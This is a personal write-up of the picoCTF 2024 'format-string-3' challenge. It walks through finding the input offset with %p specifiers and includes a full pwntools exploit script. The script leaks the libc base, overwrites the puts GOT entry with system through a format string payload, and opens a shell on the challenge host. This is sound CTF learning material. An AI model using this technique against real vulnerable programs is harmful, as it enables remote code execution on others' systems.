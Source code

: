 # Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#format_string_<br>
_#browser_webshell_solvable_<br>

This program ***doesn't contain a win function***. How can you win?<br>
Download the binary [here](format-string-3).<br>
Download the source [here](format-string-3.c).<br>
Download libc [here](libc.so.6), download the interpreter [here](ld-linux-x86-64.so.2).<br>
Run the binary with these two files present in the same directory.

## Solution

When I first looked at the challenge title, I immediately thought it would be very difficult for me. Initially, I didn’t even know where to start, so I decided to look for writeups online.  

To begin, I examined the source code to identify any vulnerabilities that could be exploited. After conducting some research, I realized this challenge was more complex than the previous ones. It required leaking an address and finding the input string offset to overwrite and replace the puts function with the system function. Ultimately, the program will be ended up by executing system("/bin/sh"), which spawns a shell, and thus I can get the flag from the shell.

![image](https://github.com/user-attachments/assets/6cc812fe-ad8a-4d4d-a782-3402ec58fc9e)<br>
**The source code.*

Once I understood the concept of exploiting this challenge, I began by running the provided program to observe its execution and output. To do this, I connected to the challenge instance on the PicoCTF site by entering the command `nc rhea.picoctf.net 53133` in the Kali terminal. To test upon the input and observe the output, I input a simple string as input to the program, which will be printed back to stdout(buf) function call.

![image](https://github.com/user-attachments/assets/4fe4f694-24f7-4c0d-80e0-d365cdd464e1)<br>
**The stdin and stdout function call.*

In this case, I know I can use format specifiers to read arbitrary stack values.

> [!NOTE]
> Arbitrary stack value  
> From what I understand, it seems to involve the addresses for inputs. Whenever we enter something into the program, it gets stored in the program's background process. Hence, we can simply use the **format specifiers** like %x (hexadecimal) or %p (pointers) to read the arbitrary values from the program.

![image](https://github.com/user-attachments/assets/487a6098-68f9-41c7-9f82-aa99b42c927d)<br>
**The output of input testing.*

From this, I tested again with the input `AAAAAAAA%2$p` to observe the output. The result displayed 8's A followed by the second argument, which should correspond to the second memory address.

![image](https://github.com/user-attachments/assets/aa5e5a23-b732-4de1-9f2c-5aaef71add85)<br>
**The testing result.*

> [!TIP]
> Ideally, the format specifier **%n$p** where n is an offset to point exactly at the start of the input string. You can do this manually (%p, %2$p, %3$p…) until %p points to the desired input string.

Now, I can determine the offset of the input string by entering 8 'A's followed by as many %p placeholders as possible. This allows me to clearly identify where the input appears in the displayed output.

![image](https://github.com/user-attachments/assets/3311c030-448c-46ee-b452-1596aa511be0)<br>
**The input is at the 38th position.*

Once I gathered all the necessary information, I prepared a script to incorporate everything needed to exploit the shell and retrieve the flag. The script used is shown below.

``` python
#!/usr/bin/env python3
from pwn import *

# Context setup
exe = "./format-string-3"
libc_path = "./libc.so.6"

context.binary = ELF(exe)
libc = ELF(libc_path)
context.terminal = ["tmux", "splitw", "-h"]

# Offset for the format string vulnerability
FMT_STR_OFFSET = 38


def leak_libc_base(io):
    """Leaks the libc base address from the provided setvbuf leak."""
    io.recvuntil(b'setvbuf in libc: ')
    setvbuf_leak = int(io.recvline().strip(), 16)
    log.info(f"Leaked setvbuf address: {hex(setvbuf_leak)}")

    libc_base = setvbuf_leak - libc.symbols["setvbuf"]
    log.info(f"Calculated libc base address: {hex(libc_base)}")

    libc.address = libc_base  # Set the base address for further calculations
    return libc_base


def create_payload():
    """Creates the format string payload to overwrite GOT entry for `puts`."""
    target_address = context.binary.got["puts"]
    system_address = libc.symbols["system"]
    log.info(f"Target address (GOT entry for puts): {hex(target_address)}")
    log.info(f"New function address (system): {hex(system_address)}")

    payload = fmtstr_payload(FMT_STR_OFFSET, {target_address: system_address})
    log.info(f"Generated payload: {payload}")
    return payload


def main():
    # Connect to the target binary (remote)
    io = remote("rhea.picoctf.net", 53133)

    # Attach GDB for debugging if required
    if args.GDB:
        gdb.attach(io, gdbscript="b *main+127\ncontinue")

    # Leak libc base address
    libc_base = leak_libc_base(io)

    # Create the payload to exploit the format string vulnerability
    payload = create_payload()

    # Send the payload
    io.sendline(payload)

    # Get an interactive shell
    io.interactive()


if __name__ == "__main__":
    main()
```
**This script was written with reference to [online author].(https://blog.thecyberthesis.com/blog/writeups/picoCTF/pwn/format-string-3).*
